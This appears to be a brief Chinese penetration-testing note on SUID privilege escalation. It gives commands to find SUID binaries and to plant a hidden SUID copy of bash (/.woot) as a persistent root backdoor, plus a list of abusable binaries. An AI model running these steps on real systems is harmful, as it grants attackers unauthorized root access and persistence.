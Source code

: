 ```yaml
---
title: suid 后门
id: zhfly3502
---
```


## suid 后门

suid说明：

1.  用户或属主对应的前三位权限的x位上如果有s就表示suid权限。当x位上没有小写x执行权限的时候，suid的权限显示的就是大S。

2.  suid作用是让普通用户可以以root（或其他）的用户角色运行只有root（或其他）账号才能运行的程序或命令，或程序命令对应本来没有权限操作的文件等。

先查找具有suid的文件：

```
find / -perm +4000 -ls
find . -perm /4000
find / -user root -perm -4000 -print 2>/dev/null 
```

将具有suid的复制到指定目录，然后再给权限执行。

```
cp /bin/bash /.woot
chmod 4755 /.woot
/.woot -p 
```

![image](../img/5df5c1c06462c3760d60de9a10182697.png)

列出一些具有suid权限的文件、然后利用一些二进制文件的特性来执行额外的命令。

```
Nmap
Vim
find
Bash
More
Less
Nano
cp 
```

常见的suid提权的程序。

![image](../img/ceb5fda8ef6fd3dc41e5ef21caa7e55d.png)
